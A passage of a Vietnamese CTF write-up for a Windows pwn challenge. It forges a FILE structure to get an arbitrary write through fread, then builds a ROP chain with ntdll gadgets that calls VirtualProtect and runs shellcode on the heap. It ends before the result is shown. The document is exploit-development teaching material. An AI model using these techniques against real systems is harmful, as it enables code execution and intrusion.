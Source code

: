 Sau khi malloc được lên bss, chúng ta sẽ dùng nó để ghi đè `File`. `File = fopen("user.txt", 'r')`.  

**Make file structure great again**.  

Khi ghi đè file struct, ta có thể dùng hàm `fread` để ghi đè lên địa chỉ tùy ý.   

```python
cnt = 0
_ptr = 0
_base = ret                 # <-- địa chỉ ghi đè 
flag = 0x2080
fd = 0                      # <-- đọc từ stdin 
bufsize = 0x100+0x10        # <-- kích thước 
fakefp = p64(_ptr) + p64(_base) + p32(cnt) + p32(flag) + p32(fd) + p32(0) + p64(bufsize) +p64(0)
fakefp += p64(0xffffffffffffffff) + p32(0xffffffff) + p32(0) + p64(0)*2
fakefp_address = password + 0x20
add("GGGG", 0xf0, 'a' * 0x10 + p64(fakefp_address) + p64(0) + fakefp) 
```  

Bài này sẽ không đi sâu vào File struct :v Có thể tham khảo thêm slide của `Angel Boy` để hiểu thêm về vấn đề này.  

# ROP  

Do chương trình không cho gọi subprocess nên chúng ta có thể gọi `VirtualProtect` từ `kernel32` để thay đổi quyền thực thi của một vùng nhớ.  

```
# change mem-> mem + size to R|W|X 
VirtualProtect(mem, size, 0x40, valid_address)  
```

Do ta có thể leak tất cả địa chỉ nên thực hiện gọi hàm `VirtuaProtect` khá dễ dàng.  

Tìm gadget `pop` bằng trang [ropshell.com](http://ropshell.com/search). Tìm bằng gadget của Linux nó không ra hết gadget :v   

Final rop như này :   

```
pop_rdx_rcx_r8_r9_r10_r11 = ntdll + 0x8c430
buf = bin_base + 0x5800
rop = ''
rop += p64(pop_rdx_rcx_r8_r9_r10_r11) 
rop += p64(0x1000) + p64(shellcode_addr) + p64(0x40) + p64(shellcode_addr - 8) + p64(0) * 2
rop += p64(virtual_protect)
rop += p64(shellcode_addr)
```

Shellcode có thể đặt tại heap và leak địa chỉ từ các bước trước.  

Thành quả :   

